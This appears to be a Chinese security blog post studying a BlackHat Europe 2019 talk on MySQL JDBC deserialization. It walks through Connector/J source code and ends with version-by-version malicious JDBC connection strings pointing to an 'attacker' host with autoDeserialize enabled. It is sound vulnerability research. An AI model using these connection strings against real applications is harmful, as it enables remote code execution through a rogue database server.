




前言
BlackHat Europe 2019 《New Exploit Technique In Java Deserialization Attack》 议题学习。
Java DataBase Connectivity
JDBC（Java Database Connectivity）是Java程序访问数据库的标准接口。
使用Java程序访问数据库时，Java代码并不是直接通过TCP连接去访问数据库，而是通过JDBC接口来访问，而JDBC接口则通过JDBC驱动来实现真正对数据库的访问。
public static void main(String[] args) throws Exception{
String DB_URL = "jdbc:mysql://127.0.0.1:3306/sectest?var=value";
Driver driver = new com.mysql.jdbc.Driver();
Connection conn = driver.connect(DB_URL, props);
Statement stmt = conn.createStatement(ResultSet.TYPE_SCROLL_SENSITIVE,....);
}
JDBC 通常使用不同的 URL/URI 连接字符串来与指定类型的数据库建立连接，这个 URL 主要包含三个部分: 驱动名称、连接地址以及扩展参数。

漏洞环境
https://github.com/fuzz7j/JavaSecuritySourceCode/MySQL_JDBC_Deserialization
漏洞分析
根据PPT看到入口点为 com.mysql.cj.jdbc.result.ResultSetImpl#getObject
public Object getObject(int columnIndex) throws SQLException {
...
case BLOB:
// autoDeserialize为开启状态则继续
if ((Boolean)this.connection.getPropertySet().getBooleanProperty("autoDeserialize").getValue()) {
Object obj = data;
try {
ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
ObjectInputStream objIn = new ObjectInputStream(bytesIn);
obj = objIn.readObject();
objIn.close();
bytesIn.close();
}
}
}
当MySQL字段类型为BLOB时，会触发readObject进行反序列化。
ServerStatusDiffInterceptor触发方式
作者利用扩展参数queryInterceptors来触发getObject方法。
queryInterceptors: 实现 com.mysql.cj.interceptors.QueryInterceptor 的类的逗号分隔列表，应放置在查询执行“中间”以影响结果。
在com.mysql.cj.interceptors.QueryInterceptor的实现类中， com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor会调用getObject方法。
populateMapWithSessionStatusValues执行一次SHOW SESSION STATUS查询，并调用ResultSetUtil.resultSetToMap(toPopulate, rs)处理结果。

resultSetToMap调用了getObject方法，构成一条利用链。

detectCustomCollations触发方式
扩展参数detectCustomCollations是从5.1.29开始支持的，在5.1.29之前，此选项默认为True。
触发点为com.mysql.jdbc.ConnectionImpl#buildCollationMapping。
private void buildCollationMapping() throws SQLException {
...
// 服务器版本大于等于4.1.0 且detectCustomCollations为True
if (this.versionMeetsMinimum(4, 1, 0) && this.getDetectCustomCollations()) {
java.sql.Statement stmt = null;
ResultSet results = null;
try {
results = stmt.executeQuery("SHOW COLLATION");
// 服务器版本大于等于5.0.0
f (this.versionMeetsMinimum(5, 0, 0)) {
Util.resultSetToMap(sortedCollationMap, results, 3, 2);
}
}
}
}
可用连接串
ServerStatusDiffInterceptor触发方式
8.x
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
6.x
jdbc:mysql://attacker/db?statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
5.1.x（5.1.11及以上）
jdbc:mysql://attacker/db?statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
5.1.x（5.1.10及以下）
连接时的SQL查询是在createNewIO方法中触发，但5.1.10及以前版本，Interceptors的初始化在createNewIO之后，导致查询触发前还不存在Interceptors，故无法通过连接直接触发。 
5.0.x
不可用
detectCustomCollations触发方式
5.1.x（5.1.41及以上）
不可用
5.1.29-5.1.40
jdbc:mysql://attacker/db?detectCustomCollations=true&autoDeserialize=true
5.1.28-5.1.19
jdbc:mysql://attacker/db?autoDeserialize=true
5.1.x（5.1.18及以下）
不可用
5.0.x版本
不可用
参考链接
https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf
https://www.anquanke.com/post/id/203086
https://paper.seebug.org/1832/